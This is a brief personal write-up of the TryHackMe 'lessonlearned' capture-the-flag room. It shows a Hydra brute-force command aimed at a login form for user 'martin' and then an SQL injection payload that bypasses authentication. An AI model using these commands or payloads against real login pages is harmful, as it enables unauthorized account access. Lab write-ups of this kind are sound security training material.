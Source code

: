 https://tryhackme.com/r/room/lessonlearned

[Actual doc](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

I have to brute force the login page using hydra
![[Screenshot_2024-04-29_20-25-32.png]]I found multiple accounts, now it's time to bruteforce some user's password

```shell
sudo hydra -l "martin" -P /usr/share/wordlists/rockyou.txt 10.10.73.243 http-post-form "/:username=^USER^&password=^PASS^:Invalid password."
```

Nothing happened, it's something else

It was sql injection
`karen' and 1=1;-- -`
